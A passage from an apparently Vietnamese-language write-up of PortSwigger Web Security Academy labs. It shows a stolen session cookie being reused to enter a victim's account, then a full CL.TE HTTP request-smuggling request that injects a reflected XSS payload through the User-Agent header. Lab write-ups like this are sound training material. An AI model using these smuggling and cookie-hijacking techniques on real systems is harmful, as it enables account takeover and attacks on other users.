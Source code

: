 ![image](https://hackmd.io/_uploads/BkgTn1npa.png)

- quay lại xem comment đã thấy request của user victim chứa cookie.

![image](https://hackmd.io/_uploads/HkfS3Jh66.png)

`Cookie: session=xxcj0YQXJ06eog8MJoSFa4rsB6D8cAiD`

Set cookie vào request, ta truy cập được account nạn nhân.

![image](https://hackmd.io/_uploads/BJgj2yhT6.png)

và lab đã được solve

![image](https://hackmd.io/_uploads/SJZY6yhp6.png)

## 10. Lab: Exploiting HTTP request smuggling to deliver reflected XSS

link: https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss

### Đề bài

![image](https://hackmd.io/_uploads/Hko-Ry3p6.png)

### Phân tích

- Ứng dụng dễ bị XSS phản ánh thông qua User-Agenttiêu đề.

- Để giải quyết bài lab, mình cần chuyển một yêu cầu đến máy chủ backend khiến yêu cầu của người dùng tiếp theo nhận được phản hồi có chứa khai thác XSS thực thi alert(1).

- Tại phần form post comment tại các post, giá trị trường User-Agent được thêm vào value của input hidden. Ta có thể dẽ dàng trigger XSS.

![image](https://hackmd.io/_uploads/Hkw6ye3T6.png)

![image](https://hackmd.io/_uploads/r11Mxgn6a.png)

### Khai thác

- Đây là dạng bài CL.TE nên ta sẽ dùng payload sau với User-Agent là XSS payload.

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
